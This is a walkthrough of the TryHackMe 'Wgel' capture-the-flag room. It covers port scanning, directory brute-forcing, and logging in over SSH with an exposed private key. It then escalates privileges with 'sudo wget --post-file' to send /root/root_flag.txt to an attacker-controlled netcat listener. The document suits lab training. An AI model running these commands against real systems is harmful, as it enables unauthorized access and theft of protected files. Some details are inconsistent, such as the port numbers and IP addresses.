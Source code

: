# Wgel THM CTF Walkthrough

Solving Wgel TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/wgelctf)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/acf9d4a0-90c3-4331-876c-259d01151cab)

Here we see only port 20 (ssh) and 80 (http) are open.
Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet. <br>
![Apache Default Web Page](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/db711117-55cf-40cf-bade-c899b639921b)

Although, We did get the username jessie in the source code of the page.
![Apache Source Code](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/68d8c025-4d7e-4e36-9e4a-5b0abcedb67f) <br>

## Directory Brute-Forcing

Using `Gobuster alternative`:
```sh
gobuster -u http://10.10.14.80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir
```

We found `/sitemap`, which is interesting So, did another gobuster search which gave ./ssh <br>
![sitemap ssh](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/07dffda9-c618-4ab7-8b7e-1f1fce228cb9) <br>
![sitemap ssh key](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/86b63692-2236-4b76-bd2b-9290c8c3bc18) <br>

Copy this Key. <br>
![id_rsa](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dea30ebd-b497-4ca8-ad9b-412a8cebfd79) <br>

Give it executable permission and run ssh. <br>


```sh
chmod 600 id_rsa1
ssh jessie@10.10.214.80 -i id_rsa1
```

![ssh login](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/fb56a32c-1215-4b49-8543-3e35abd86252) <br>


We easily got user flag
```sh
find / -type f -name user_flag.txt 2>>/dev/null
cat /home/jessie/Documents/user_flag.txt
```
![user_flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dc7fb1ee-0068-467b-8a72-5541a0e43eae) <br>

Let's try to escalate priviledges.
```sh
sudo -l
```

We can run sudo wget without password.
![sudo l](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/c3c31fca-e3b4-4964-a034-c3ed7fbdbd9b) <br>

```sh
nc -nlvp 4445
```

Let's Open netcat listener (The screenshot is older one with port 1234. Don't confuse it, You can use any port but remeber to keep the same port on both sides.) <br>
![nc listener](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/5f30ea5d-d5b1-4d72-b84c-2f59b1d10e9f) <br>

```sh
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.88.138:1234
```
![wget post](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/2fdf9d6f-a46f-4e46-a112-082a5adc3095) <br>

Check the Netcat listener. We have recieved the root flag.
![root flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/82cdc243-127f-44bd-b7e1-ed4274f9e993) <br>


## Congrats!
## We have solved Wgel THM CTF!
## Follow My GitHub for more.

